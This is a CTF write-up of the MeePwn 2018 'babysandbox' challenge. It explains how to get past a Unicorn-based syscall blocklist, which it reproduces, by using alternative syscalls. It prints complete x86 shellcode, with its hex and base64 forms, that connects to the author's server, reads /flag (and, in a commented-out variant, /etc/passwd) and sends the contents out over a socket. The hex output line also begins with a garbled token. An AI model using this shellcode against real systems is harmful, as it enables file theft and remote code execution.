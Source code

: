 #### MeePWN CTF Quals 2018 - babysandbox (100)  - Pwn

##### Challenge

Do you know Unicorn engine? Let's bypass my baby sandbox   

http://178.128.100.75/



#### Summary

A web application which contains the web application source code, a binary and an input to send a *payload* to the binary.

![](https://unam.re/static/files/babysandbox_webApp.png)

From the web application we can download the binary, the exploitation of the binary is easy because it has a call <payload>, where payload is the user input.

So, the goal of this challenge is bypass the filter of the web application, basically, it is a python script which uses unicorn verify the syscalls that we are using in our payload. And It has forbidden the most common syscalls for shellcodes.

```Python
sys_fork = 2
sys_read = 3
sys_write = 4
sys_open = 5
sys_close = 6
sys_execve = 11
sys_access = 33
sys_dup	= 41
sys_dup2 = 63
sys_mmap = 90
sys_munmap = 91
sys_mprotect = 125
sys_sendfile = 187
sys_sendfile64 = 239
BADSYSCALL = [sys_fork, sys_read, sys_write, sys_open, sys_close, sys_execve, sys_access, sys_dup, sys_dup2, sys_mmap, sys_munmap, sys_mprotect, sys_sendfile, sys_sendfile64]
```

[source code](https://unam.re/static/files/babysandbox_source.py)

[binary](https://unam.re/static/files/babysandbox)



#### Solution

The solution is make a shellcode without uses the "BADSYSCALLS" and launch it though the web application.

Looking for syscalls that we can use in our payload, we found the following:

| Method        | System call  | Socket syscall           | Description  |
| ------------- |:-------------:| :--------------:|-----------:|
| socket        | 0x66 | 1 (SYS_SOCKET)          | Create a socket |
| connect | 0x66 |  3 (SYS_CONNECT)  | Connect a socket |
| send | 0x66 | 9 (SYS_SEND)  | Send data via socket |
| recv    | 0x66 | 10 (SYS_RECV)  | Receive data via socket |
| dup3     | 0x14a | None    |   Duplicate the file descriptors |
| openat | 0x127 | None | Open a file relative to a directory file descriptor |
| pread64 | 0xb4 | None | Read from or write to a file descriptor at a given offset |
| execve      | 0xb  | None    | It is forbidden by unicorn, but we will bypass it |



So, our purpose is make a shellcode which connect to our server and receive the execve syscall number (0xb) from the server, like a *staged* payload.

Moreover, as I like assembly programming, I have developed a little piece of code to read files using openat and pread. (Obviously with execve, I could do it as well...)

I have pieces of code commented because I changed the shellcode depending of the payload... (I don't know why execve(/bin/bash) doesn't work correctly :@ )

Finally, when I had my execve shellcode, I did a /bin/ls and I saw the flag in /flag. After, I read the file using openat and pread, and sent it via socket to my server.

```assembly
global _start			

section .text
_start:
        xor eax, eax
        xor ebx, ebx

        xor eax, eax
        xor ebx, ebx
        push eax                ; protocol      - 0
        push 1                  ; type          - SOCK_STREAM,
        push 2                  ; dominio       - AF_INET

        mov ecx, esp            ; arguments
        mov bl, 1               ; sys_socket (create)
        mov al, 102             ; systemcall
        int 0x80

        mov esi, eax            ; save sockfd

        xor ecx, ecx
        push 0x00000000         ; IP Address redacted
        push word 0xb315        ; Port 5555
        push word 2             ; PF_INET
        mov ecx, esp            ; save *addr in ecx

        push 0x10               ; length addrlen=16
        push ecx                ; &serv_addr
        push esi                ; sockfd

        mov ecx, esp            ; arguments
        mov al, 102             ; systemcall
        mov bl, 3               ; sys_connect
        int 0x80

        mov ebx, esi            ; oldfd = clientfd
        xor ecx, ecx            ; ecx = newfd      
        xor edx, edx
loop:
        mov ax, 0x14a
        int 0x80
        inc ecx
        cmp ecx, 0x2
        jle loop


		; sys_openat
		mov eax, 0x127
		xor ebx, ebx
		push ebx
		; openat /etc/passwd
		;push 0x64777373
		;push 0x61702f63
		;push 0x74652f2f	
		; openat /flag
		push 0x67616c66
		push 0x2f2f2f2f
		mov ecx, esp
		xor edx, edx
		xor esi, esi
		int 0x80
		
		; sys_pread(fd, buff,...)
		mov ebx, 0x4
		mov eax, 0xb4
		mov ecx, esp			
		mov edx, -1
		xor esi, esi
		int 0x80

		; socketcall sys_send
		mov ebx, 9		;send msg
		; arguments
		xor eax, eax
		push eax
		push -1
		push ecx
		push eax
		mov ecx, esp
		mov eax, 0x66
		int 0x80

		; Reveive execve and pwn! :)
		; sys_recv
		;xor eax, eax
		;mov ebx, esp
		;push eax
		;push 10
		;push ebx                ; file dir
		;push eax
		;mov ecx, esp
		;mov eax, 0x66
		;mov ebx, 10           ;recv msg
		;int 0x80

		;add ecx, 16
		;mov al, byte [ecx]		; 0xb
		;xor ecx, ecx
		;push ecx
		;push 0x736c2f6e
		;push 0x69622f2f
		;mov ebx, esp
		;push ecx
		;mov edx, esp
		;push ebx
		;mov ecx, esp
		;int 0x80
```



Compile the shellcode, encode to base64 and send via web application:

```bash
hiro@HackingLab:~/CTF/MeeCTF_2018$ nasm -f elf32 shellcode.asm -o shellcode.o
hiro@HackingLab:~/CTF/MeeCTF_2018$ ld shellcode.o -o shellcode
hiro@HackingLab:~/CTF/MeeCTF_2018$ objdump -d ./shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xformato\x31\xc0\x31\xdb\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc9\x68\xc1\xe9\x3c\x09\x66\x68\x15\xb3\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x03\xcd\x80\x89\xf3\x31\xc9\x31\xd2\x66\xb8\x4a\x01\xcd\x80\x41\x83\xf9\x02\x7e\xf4\xb8\x27\x01\x00\x00\x31\xdb\x53\x68\x66\x6c\x61\x67\x68\x2f\x2f\x2f\x2f\x89\xe1\x31\xd2\x31\xf6\xcd\x80\xbb\x04\x00\x00\x00\xb8\xb4\x00\x00\x00\x89\xe1\xba\xff\xff\xff\xff\x31\xf6\xcd\x80\xbb\x09\x00\x00\x00\x31\xc0\x50\x6a\xff\x51\x50\x89\xe1\xb8\x66\x00\x00\x00\xcd\x80"
hiro@HackingLab:~/CTF/MeeCTF_2018$ python -c 'print "\x31\xc0\x31\xdb\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc9\x68\xc1\xe9\x3c\x09\x66\x68\x15\xb3\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x03\xcd\x80\x89\xf3\x31\xc9\x31\xd2\x66\xb8\x4a\x01\xcd\x80\x41\x83\xf9\x02\x7e\xf4\xb8\x27\x01\x00\x00\x31\xdb\x53\x68\x66\x6c\x61\x67\x68\x2f\x2f\x2f\x2f\x89\xe1\x31\xd2\x31\xf6\xcd\x80\xbb\x04\x00\x00\x00\xb8\xb4\x00\x00\x00\x89\xe1\xba\xff\xff\xff\xff\x31\xf6\xcd\x80\xbb\x09\x00\x00\x00\x31\xc0\x50\x6a\xff\x51\x50\x89\xe1\xb8\x66\x00\x00\x00\xcd\x80"' | base64
McAx2zHAMdtQagFqAonhswGwZs2AicYxyWjB6TwJZmgVs2ZqAonhahBRVonhsGazA82AifMxyTHS
ZrhKAc2AQYP5An70uCcBAAAx21NoZmxhZ2gvLy8vieEx0jH2zYC7BAAAALi0AAAAieG6/////zH2
zYC7CQAAADHAUGr/UVCJ4bhmAAAAzYAK
```



Reading arbitrary files:

![](https://unam.re/static/files/babysandbox_passwd.png)



Executing arbitrary code and reading /flag (test has "\xb"):

![](https://unam.re/static/files/babysandbox_flag.png)



(Yes, we read garbage from the stack too.. xD)

Flag:

```
MeePwnCTF{Unicorn_Engine_Is_So_Good_But_Not_Perfect}
```



Happy Hacking!! 
